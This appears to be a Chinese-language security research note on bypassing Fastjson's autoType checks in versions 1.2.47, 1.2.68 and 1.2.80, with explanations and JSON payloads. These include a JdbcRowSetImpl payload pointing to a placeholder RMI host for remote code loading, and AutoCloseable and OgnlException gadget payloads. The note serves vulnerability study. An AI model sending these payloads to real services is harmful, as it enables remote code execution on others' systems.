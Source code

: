 
### 1.2.47的绕过
核心是使用mappings缓存的绕过
* 当mappings缓存中存在指定类时，可以直接返回并且不受SupportAutoType的校验。
* 当class是一个`java.lang.Class`类时，会去加载指定类

```java
if(clazz == Class.class){
    return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
}
```

```json
[
  "a": {
    "@type": "java.lang.Class",
    "val": "com.sun.rowset.JdbcRowSetImpl"
  },
  "b": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://host:port/xxx",
    "autoCommit":"true"
  }
]
```

### 1.2.68的绕过
* 主要靠的就是AutoCloseable类，fastjson没有为它指定特定的deserializer,会创一个出来，他默认存在于mappings中
* 会根据第二个@type的值去获取对应的class
* AutoCloseable的范围大得多，常用的流操作、文件、socket之类的都继承了AutoCloseable接口。

```json
[
    "a":{
        "@type":"java.lang.AutoCloseable",
        "@type":"java.io.ByteArrayOutputStream"
    },
    "b":{
        "@type":"java.io.ByteArrayOutputStream"
    }
]
```

### 1.2.80的绕过
* 将异常类(`java.lang.Exception`)的子类`XXXException`添加到白名单,实例化`XXXException`并加入类缓存

#### 配合 ognl
```json
[
    "a":{
        "@type":"java.lang.Exception",
        "@type":"ognl.OgnlException",
    }
]
```
